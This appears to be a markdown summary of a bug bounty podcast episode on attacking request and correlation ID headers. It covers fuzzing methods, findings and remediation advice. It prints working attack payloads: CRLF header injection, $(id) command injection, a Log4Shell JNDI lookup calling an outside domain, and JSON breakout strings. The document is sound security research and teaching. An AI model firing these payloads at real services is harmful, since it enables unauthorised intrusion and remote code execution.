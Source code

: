 # HackerNotes Ep.86 — The X-Correlation between Frans & RCE (Research Drop)

**Source:** Critical Thinking – Bug Bounty Podcast blog (Aug 30 2024) (<https://blog.criticalthinkingpodcast.io/p/hackernotes-ep86-xcorrelation-frans-rce-research-drop>)

## TL;DR

- "X-Correlation Injection": headers such as `X-Request-ID`, `X-Correlation-ID`, etc., are more than debugging aids; they can expand attack surface by entering multiple server-side contexts (logging, CI pipelines, internal services).
- Key steps:
  - Identify candidate headers via `Access-Control-*` or response headers containing `-id` or `id`.
  - If header value is reflected in response, treat as high-signal lead.
- Fuzzing tactics:
  - Error-based fuzzing: inject unusual characters into header to provoke errors.
  - Blind/OOB fuzzing: use payloads in header to attempt blind XSS, OOB/RCE, SQL injection, etc.
- Example payloads (escape-sensitive):

  ```text
  x-request-id: 1%0d%0ax-account:456
  x-request-id: 1%c4%8d%c4%8anew-header: f00
  x-request-id: $(id)
  x-request-id: ${jdni:rmi://x${sys:java.version}.mydomain/a}
  x-request-id: 1"}. "payload":{"account":"456","foo":"
  ```

## X-Correlation Injection

- Headers like `X-Request-ID`, `X-Correlation-ID`, `request-id`, etc., trace requests through the application ecosystem.
- These headers often propagate through file systems, CI pipelines, and internal logs.
- No standard format; watch for any header matching `*-id`, `id`, or similar patterns.
- Identifying target headers:
  - Check response headers of application for any `-id` or `id` fields.
  - If you send a header and its value is reflected back, treat as a strong lead.
  - Check `Access-Control-*` headers for exposure clues.

## Fuzzing the Headers

- Unknown context: header values may enter unknown backend services. Explore proactively.
- Two approaches:
  1. **Error-based fuzzing**: Insert a broad set of ASCII or special characters in the header to provoke errors. Look for 500s or unusual responses.
  2. **Blind/OOB fuzzing**: Use headers with payloads expecting an out-of-band trigger. Examples:
     - Header blind XSS payloads.
     - DNS/OOB callbacks.
     - Log4Shell-style `${jndi:...}` payloads.
- Beware false positives:
  - Header values may be validated by regex (e.g., `^[a-f0-9-]{36}$`). Non-matching values cause errors.
  - Some endpoints may not allow the header at all (causes error). Validate whether the header is allowed.

## Findings

- **Path traversal / arbitrary file write**
  - Example: a trace ID caused metrics to be written to `/tmp/trace-data/<id>` and could be weaponized.
- **Header injection**
  - Example: `x-request-id: 1%0d%0ax-account:456` injected a new header downstream.
  - Java-specific header injection via encoded newline sequences can create new headers.
- **OS command injection**
  - Example: `x-request-id: $(id)` executed in a shell context on some services.
- **Log4Shell**
  - Example: `${jndi:rmi://...}` payloads still trigger vulnerable internal services.
- **JSON injection**
  - Header values injected into server-side JSON blobs can alter parsed objects or properties.

## Server-side JSON Injection

- JSON injection is common and underappreciated.
- Questions to determine context:
  - Are properties allowed or restricted?
  - Is nested object syntax allowed?
  - How are quotes handled (`"` vs `\"`)?
  - Are premature endings or duplicate properties tolerated?
- Test patterns:

  ```json
  // premature ending examples (conceptual)
  id: 1"}x}} -> Error
  id: 1"}}x} -> Error
  id: 1"}}}x -> OK
  ```

- Nested injection example (conceptual):

  ```json
  {
    "req-id":"1",
    "foo":{"foo":"","id":"1234","trace":""},
    "id":"4567"
  }
  ```

- Other injection targets:
  - S3 upload policy conditions
  - JWT payloads (if JSON inside token is used without validation)

## Detection Tips

- End payloads with `"` or `\` to detect JSON/string context breaks.
- Use OOB services for blind detection (DNS, HTTP callbacks).
- Monitor application logs, temp file systems, CI artifacts, and storage buckets for injected content.

## Remediation Guidance (high level)

- Treat correlation headers as untrusted input.
- Normalize and validate header formats server-side.
- Use strict allowlists for header values and reject unexpected characters.
- Ensure logging and downstream systems sanitize or escape header values before use.
- Apply CSP and output-encoding where header values are rendered into responses.
- Keep Java components and logging frameworks patched to mitigate known RCE vectors like Log4Shell.

## Key Takeaways

- Correlation and trace headers expand the attack surface across many contexts.
- Fuzz these headers with both error-based and blind/OOB payloads.
- JSON injection vectors are common and impactful.
- End payloads with context-breaking characters to reveal parsing contexts.

## References

- HackerNotes Ep.86 blog post. <https://blog.criticalthinkingpodcast.io/p/hackernotes-ep86-xcorrelation-frans-rce-research-drop>
- Research by Frans Rosen and contributors.
